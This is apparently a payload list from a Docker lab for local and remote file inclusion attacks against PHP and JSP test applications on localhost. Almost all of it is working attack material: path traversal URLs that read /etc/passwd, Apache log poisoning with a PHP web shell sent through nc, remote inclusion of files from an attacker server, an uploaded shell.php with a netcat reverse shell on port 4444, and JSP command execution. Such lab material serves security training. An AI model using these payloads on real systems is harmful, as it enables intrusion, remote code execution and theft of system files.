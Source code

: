 # Payloads

## PHP

- http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:8883/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

http://localhost:8888/webapp/?help=runme.jsp?exec=ls
http://localhost:8888/webapp/?help=runme.jsp?exec=cat%20/etc/passwd

http://localhost:8888/webapp/?help=http://172.18.0.3:80/jsp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
